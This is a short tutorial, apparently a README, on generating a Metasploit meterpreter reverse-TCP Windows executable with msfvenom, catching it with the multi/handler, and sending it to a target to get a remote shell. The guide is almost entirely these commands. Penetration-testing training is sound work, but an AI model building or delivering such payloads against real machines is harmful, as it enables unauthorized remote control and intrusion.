 # Metasploit Setup and Usage on Kali Linux

This guide explains how to set up and use Metasploit on Kali Linux for creating and running a reverse TCP payload.

## Prerequisites

- Kali Linux installed and running.
- Metasploit Framework installed (comes pre-installed with Kali Linux).
- Basic understanding of networking and penetration testing.

---

## Steps to Create and Use the Payload

### 1. Generate the Payload

Use the `msfvenom` command to generate a reverse TCP payload. Run the following command in your terminal:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=YOUR_IP lport=4444 -f exe > whatevernamefile.exe
```

- Replace `YOUR_IP` with your Kali Linux machine's IP address.
- The payload will be saved as `whatevernamefile.exe` in the current directory.

---

### 2. Start the Metasploit Console

Run the following command to start the Metasploit console:

```bash
msfconsole
```

---

### 3. Set Up the Exploit Handler

Once inside the Metasploit console, execute the following commands:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```

- Replace `YOUR_IP` with your Kali Linux machine's IP address.

---

### 4. Deploy the Payload

Send the generated `whatevernamefile.exe` to the target machine and execute it. Once the payload is executed on the target machine, you will get a Meterpreter session in the Metasploit console.

---

## Notes

- Ensure that your firewall or network settings allow connections on port `4444`.
- Use this setup only in environments where you have explicit permission to perform penetration testing.

---

## Disclaimer

This guide is for educational purposes only. Unauthorized use of these tools is illegal and unethical.
